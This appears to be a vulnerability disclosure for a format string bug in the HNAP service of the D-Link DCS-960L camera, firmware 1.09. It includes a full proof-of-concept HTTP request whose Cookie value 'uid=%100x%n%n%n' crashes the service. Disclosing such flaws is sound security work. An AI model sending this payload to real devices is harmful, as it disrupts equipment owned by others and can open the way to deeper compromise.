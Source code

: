 # DCS-960L 1.09 format string vulnerability

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)



## Vulnerability introduction

​    There is a format string vulnerability in the sub_402280 function of the HNAP service of D-Link DCS-960L with firmware version 1.09, which can cause the service to crash.


![image](https://github.com/user-attachments/assets/847fe2f6-9602-4449-8579-a537b01c005d)


Cookie: uid=%x%x%x%x 

![image](https://github.com/user-attachments/assets/8a81eeb2-5eea-4396-b21b-e83974ced72b)

Cookie: uid=%100x%n%n%n   crashed

![image](https://github.com/user-attachments/assets/1c63e456-ef4c-4d03-bd91-a81ffe68d925)






## POC

```http
POST /hnap/hnap_service HTTP/1.1

Host: 192.168.0.1

Content-Length: 374

SOAPAction: http://192.168.0.1/HNAP1/Login

Authorization: Basic YWRtaW46

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36

TOKEN: 32@F13DF418C72B5E92BA80E2B5A1D96AA5

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Accept: */*

Origin: http://192.168.0.1

Referer: http://192.168.0.1/audiovideo.asp?token=32

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Cookie: uid=%100x%n%n%n

Connection: close



<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username></Username><LoginPassword></LoginPassword></Login></soap:Body></soap:Envelope>
```






